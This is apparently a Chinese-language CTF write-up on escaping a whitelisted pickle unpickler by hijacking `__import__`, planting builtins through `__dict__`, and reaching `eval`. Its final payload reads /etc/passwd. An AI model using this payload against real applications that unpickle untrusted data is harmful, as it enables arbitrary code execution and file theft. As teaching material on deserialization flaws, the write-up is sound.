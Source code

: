 这道题的解法十分巧妙，使用了一种函数劫持的方式。注意到白名单校验之后会通过 `__import__` 函数去导入模块，然后使用 getattr 获取属性。
```py
        module = __import__(module)
        return getattr(module, name)
```
假如我们要通过 `getattr(module, name)` 获取到 get 函数，就需要 module 的值为 `__buitlins__` 字典，name 为 get. 则上一步 `module = __import__(module)` 需要获取到 `__buitlins__` 字典。但 module 的值仅能为 structs，因此正常情况下无法获取。

但 pickle 在反序列化时是可以进行全局覆盖的，如果将 `__import__` 覆盖成 `__getattribute__`, 则在执行 `module = __import__(module)` 时，相当于执行：
```py
module = __getattribute__('structs')
```
此时会获取 structs 模块的 structs 属性。因此这里需要将 structs.structs 赋值为 `__buitlins__` 字典。但由于 structs.structs 从未声明过，因此不可以直接使用 `GLOBAL('structs', 'structs')`这样的形式进行获取，而是需要创建这个成员变量。

python 中获取成员变量通常使用 . 运算符，这个运算符实际上会去查询这个类的 `__dict__`属性，`__dict__`属性是一个包含了所有成员变量的字典。因此除了使用 . 运算符赋值来创建成员变量以外，还可以直接向 `__dict__` 属性中添加键值对来添加成员变量。
```py
structs.aaa = "bbb"
structs.__dict__['aaa'] = "bbb"

>>> structs.__dict__['aaa'] = "bbb"
>>> structs.aaa
'bbb'
```
所以，想要将 structs.structs 赋值为 `__builtins__` 需要如下的步骤：
```py
__dict__ = GLOBAL('structs', '__dict__')
builtins = GLOBAL('structs', '__builtins__')
__dict__['structs'] = builtins
```
接着是覆盖 `__import__` 为 `__getattribute__`， 然后获取 get 函数。
```py
gtat = GLOBAL('structs', '__getattribute__')
builtins['__import__'] = gtat
builtin_get = GLOBAL('structs', 'get')
```
获取到 get 函数之后，就可以从 `__buitlins__` 字典获取 eval 函数了。最终 exp 为：
```py
__dict__ = GLOBAL('structs', '__dict__')
builtins = GLOBAL('structs', '__builtins__')
gtat = GLOBAL('structs', '__getattribute__')
builtins['__import__'] = gtat
__dict__['structs'] = builtins
builtin_get = GLOBAL('structs', 'get')
eval = builtin_get('eval')
eval('print(open("/etc/passwd").read())')
return
```
注意：这里已经将 `__import__` 函数进行了覆盖，因此不能再使用 `eval('__import__("os").system("ls")')` 来执行系统命令，但是可以使用 open 函数来读取文件内容。

如果在重载的 find_class 中直接调用 pickle.Unpickler.find_class 方法, 这种覆盖 `__import__` 函数的 payload 会引发提前引发异常导致无法执行到最后的 eval 函数中, 反而无法利用.因此函数劫持这种方式需要具体问题具体分析.
